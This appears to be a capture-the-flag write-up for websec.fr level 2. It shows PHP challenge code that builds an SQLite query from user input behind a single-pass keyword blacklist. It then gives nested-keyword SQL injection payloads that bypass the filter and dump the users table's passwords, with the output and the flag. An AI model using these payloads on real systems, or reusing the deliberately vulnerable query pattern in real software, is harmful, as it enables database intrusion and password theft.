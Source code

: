 link: http://websec.fr/level02/index.php
+ Source given
```
<?php
ini_set('display_errors', 'on');

class LevelTwo {
    public function doQuery($injection) {
        $pdo = new SQLite3('leveltwo.db', SQLITE3_OPEN_READONLY);

        $searchWords = implode (['union', 'order', 'select', 'from', 'group', 'by'], '|');
        $injection = preg_replace ('/' . $searchWords . '/i', '', $injection);

        $query = 'SELECT id,username FROM users WHERE id=' . $injection . ' LIMIT 1';
        $getUsers = $pdo->query ($query);
        $users = $getUsers->fetchArray (SQLITE3_ASSOC);

        if ($users) {
            return $users;
        }

        return false;
    }
}

if (isset ($_POST['submit']) && isset ($_POST['user_id'])) {
    $lt = new LevelTwo ();
    $userDetails = $lt->doQuery ($_POST['user_id']);
}
?>
```
+Similar to level 1, but they have blacklisted some of the words like 'union', 'order', 'select', 'from', 'group', 'by'
+ So, how this works is, when it finds any of the above words in our query, it replaces it with nothing
+ preg_replace does only one pass while replacing. So we can use something like this `seleselectct` instead of just select because the inner select gets replaced and what remains is select!
+ So our query will be like:
 `-1 uniunionon seleselectct 1,sql frfromom sqlite_master --`
 output: id -> 1
username -> CREATE TABLE users(id int(7), username varchar(255), password varchar(255))

+ To dump the passwords:
  `-1 uniunionon seleselectct 1, grogroupup_concat(password) frofromm users --`
  output: id -> 1
username -> WEBSEC{BecauseBlacklistsAreOftenAgoodIdea}

`Flag: WEBSEC{BecauseBlacklistsAreOftenAgoodIdea}`

